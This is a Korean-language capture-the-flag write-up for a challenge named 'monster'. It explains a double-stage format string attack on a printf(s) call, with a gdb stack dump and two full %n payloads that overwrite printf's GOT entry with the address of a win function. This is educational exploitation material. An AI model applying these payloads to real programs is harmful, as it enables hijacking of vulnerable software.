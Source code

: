 # monster

본 문제는 `printf(s)`의 형식으로 사용하여 FSB 취약점이 발생하는 문제입니다. 다만 s가 bss영역에 쓰여지기 때문에 double stage FSB를 발생합니다.



win함수의 주소 : 0x080485bd

printf함수의 got : 0x804a00c



```python
gdb-peda$ x/100wx $esp
0xffffcf80:	0x0804a060	0x00000032	0xf7fb35a0	0x0804875d
0xffffcf90:	0xf7fb33dc	0xffffcfb0	0x00000000	0xf7e1b647
0xffffcfa0:	0xf7fb3000	0xf7fb3000	0x00000000	0xf7e1b647
0xffffcfb0:	0x00000001	0xffffd044	0xffffd04c	0x00000000
0xffffcfc0:	0x00000000	0x00000000	0xf7fb3000	0xf7ffdc04
0xffffcfd0:	0x00000001	0x00000000	0xf7fb3000	0xf7fb3000
0xffffcfe0:	0x00000000	0x62d3a61d	0x5e20c80d	0x00000000
0xffffcff0:	0x00000000	0x00000000	0xffffd040	0xf7fd9000
0xffffd000:	0xf7fd92e4	0x00000001	0x00000000	0xf7ffd000
0xffffd010:	0x00000001	0x08048490	0x00000000	0x080484b1
0xffffd020:	0x08048747	0x00000001	0xffffd044	0x08048870
0xffffd030:	0x080488d0	0xf7fe8880	0xffffd03c	0xf7ffd918
0xffffd040:	0x00000001	0xffffd227	0x00000000	0xffffd257
0xffffd050:	0xffffd262	0xffffd274	0xffffd28a	0xffffd2bd
0xffffd060:	0xffffd2cc	0xffffd300	0xffffd310	0xffffd327
0xffffd070:	0xffffd338	0xffffd34c	0xffffd36f	0xffffd381

```





##### 과정

1. fsb를 이용하여 stack안의 적당한 포인터인 0xffffcfb0의 자리에 printf의 got로 값 modify

> %8x %8x %8x %8x %8x %8x %8x %134520780x %n : 0xffffcfb0의 값을 0x804a00c(printf의 got)으로 변경

2. double stage fsb를 이용하여 printf함수의 got를 win함수의 주소로 덮어서 익스

> %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %134514150x %n : printf의 got를 0x080485bd(win함수의 주소)로 변경

